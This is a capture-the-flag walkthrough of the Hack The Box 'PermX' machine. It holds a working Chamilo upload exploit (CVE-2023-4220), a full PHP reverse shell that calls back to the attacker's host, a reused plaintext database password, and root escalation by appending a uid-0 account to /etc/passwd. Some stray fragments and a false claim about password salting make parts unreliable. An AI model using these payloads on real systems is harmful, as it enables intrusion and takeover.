

# PermX      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
This port is used by `OpenSSH`, version 8.9p1 Ubuntu 3ubuntu0.10, running on an Ubuntu Linux system. The SSH service supports protocol 2.0 and provides secure remote access. It uses encryption algorithms for secure communication, with host keys available in `ECDSA` and `ED25519` formats, ensuring secure connections.

### **80/tcp (HTTP)**
This port is used by the `Apache` web server, version 2.4.52, running on an Ubuntu system. The service handles HTTP requests and supports methods such as `GET`, `HEAD`, `POST`, and `OPTIONS`. The server's response header confirms that it uses `Apache/2.4.52`. 

When accessing the site, there is a redirect to `http://permx.htb`, indicating the presence of a web application hosted on this address, but no title was retrieved, after pasting `http://{target ip}/` into the browser.


Add `{target ip} permx.htb` into your `/etc/hosts` file.

To do this type:

```
sudo nano /etc/hosts
```

and then paste:

```
{target ip} permx.htb
```


At the very end, then `save` it. You can do that by `Ctrl + X`. Then press `Y`. Confirm with `Enter`.

Now, after pasting `http://permx.htb` into the browser we can see good looking website.


However, after reconnaissance and clicking through it, its functionality leaves much to be desired.

### Ffuf

`Gobuster` in `dir` mode did not find anything useful. Only interesting directory was `http://permx.htb/lib/` but after review there was nothing interesting.

Let's look for some `subdomains`, to do it let's use **Ffuf**:

```
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w {path to the dictionary you want to use} -fc 302
```

`-fc 302` - This flag filters out and hides results with an HTTP status code 302, I used it to have a nice output.


We have two `subdomains` - **lms** and ***www***.

Let's add them to the `/etc/hosts` file.


Now type `http://lms.permx.htb` into your browser.


We have a login panel.

**Chamilo** is a free software (under GNU/GPL licensing) e-learning and content management system, aimed at improving access to education and knowledge globally.

Time for search, I couldn't find default credentials but I found two interesting websites.

```
https://starlabs.sg/advisories/23/23-3533/
```

```
https://starlabs.sg/advisories/23/23-4220/
```

The last one looks interesting for us and I have already found an exploit to it.

```
https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit
```


Following that, let's check if we can access `/main/inc/lib/javascript/bigupload/files` directory.

Type to the browser:

```
lms.permx.htb/main/inc/lib/javascript/bigupload/files/
```


Yes, we can. What is funny, there are some files uploaded today, probably by some other users as machine is still `Active`. 

One file is named `php-reverse-shell.php`. This only gives me confirmation that we are on the right way.

### Reverse shell

*If it weren't for the previously uploaded files from other users, I wouldn't be sure that this exploit works, and then I would upload a simple shell just like I do now to make sure and do it quickly without wasting time.*

First of all, like in article, I will upload simple `<?php system("id"); ?>` shell to observe if the `id` shell command is successfully executed. This will confirm unrestricted file upload vulnerability.

As file named `rce.php` is already uploaded, I will name my test reverse shell `revshell.php`.

In order:

```
echo '<?php system("id"); ?>' > revshell.php
```

```
curl -F 'bigUploadFile=@revshell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```


When we `refresh` the page, we can see our file is uploaded.


```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/revshell.php'
```


It works. We can now upload real, more dangerous **reverse shell**.

Go to: https://www.revshells.com/

We are going to use `PHP PentestMonkey` one.

Paste `ip address` of our `tun0` interface as we are connected to `Hack The Box` through VPN.

The `port` can be any of your choice.


Copy the payload and save it as `.php` file. It should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Time to upload it.

Type:

```
curl -F 'bigUploadFile=@{name of your reverse shell file}.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 
```


File is where it should be.


### Netcat

Now, let's set up the `Netcat` listener.

Type in new tab:

```
nc -lvnp {port you have chosen}
```


### Execute reverse shell

We can do this by using `Curl` or by running `.php` file directly from the browser.

I chose the second option because earlier I launched the test shell using curl.

I pasted this:


and pressed `Enter`.

In my `Netcat` tab I have a `shell`.


If you need, you can stabilize it, type:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Just `paste it` and press `Enter`.

### System search

Time to look around.

I couldn't find anything for a long time. Only thing I knew that I had to find something in the `/var/www/chamilo/` path.

I asked **ChatGTP** to give me possible options.

I found this payload useful:

```
find /var/www/chamilo -name "*.php" -o -name "*.conf" -o -name "*.ini"
```

It showed me a long list and I started searching for the ones that looked the most interesting.


This one was crucial.


As **ChatGTP** previously helped me I pasted to it more data and asked it what more can I do with it.

The answer was:

***You can use these credentials to connect to the database using the MySQL command line or a tool like MySQL Workbench.***

So I just pasted this payload:

```
mysql -h localhost -u chamilo -p'03F6lY3uXAP2bkW8' chamilo
```


And boom, we are in `Database`.

I searched it a bit but in `admin` section there was unfortunately nothing interesting.

I looked at the `user` table and constructed the following payload:

```
SELECT id, username, password FROM user;
```


I was sure that when I crack just one password I can use it to log in via **SSH**.

I've tried to do it with many `dictionaries` and even `brute force` these password hashes but I still couldn't extract them.

### SSH

From **system search** we know that the username was **mtz**.

I just pasted:

```
ssh mtz@{target ip}
```

and provided password form **configuration.php** - `03F6lY3uXAP2bkW8`.


We are in.

### Get the user flag

The `user` flag is in the `/home/mtz` path.


## Privilege Escalation

```
sudo -l
```

Classic move.


Let's see how `acl.sh` script looks like.


As we know it is **unwritable** so there is no chance of modifing it.

Given that **sudo** is used to run **setfacl**, we can leverage this to gain read or write access to sensitive files.

My idea was to **grant myself write permissions** on `/etc/sudoers` but it failed.

#### **Crucial**

No matter what path to gain permissions you choose, remember that the best way is to run **acl.sh** form `/home/mtz` path, as the script has a built-in **path validation mechanism**, preventing you from setting ACL permissions on files outside the `/home/mtz` directory. 



Idea was to make ///////////

Let's type:

**1**

```
ln -s /etc/passwd /home/mtz/passwd_link
```

This reates a **symbolic link (symlink)** named passwd_link in the `/home/mtz` directory that points to the `/etc/passwd` file.

A **symbolic link** is like a shortcut or reference to another file or directory. It doesn’t duplicate the contents but instead provides a path to access the target file.

**2**

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd_link
```

**3**

Preapare Linux password

```
openssl passwd {nickname you want to use}
```


Remember that linux uses salt form nickname to generate password hash blblblb

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd_link
```

```
echo 'hacker:$1$9lv4OWpc$q0YYMQMT7CelOkodybXSJ0:0:0:root:/root:/bin/bash' >> /home/mtz/passwd_link
```

```
su hacker
```

and provide the password/////


We are **root**.

### Get the root flag

`Root` flag is in the `/root` directory.


Done.

### Paste the flags

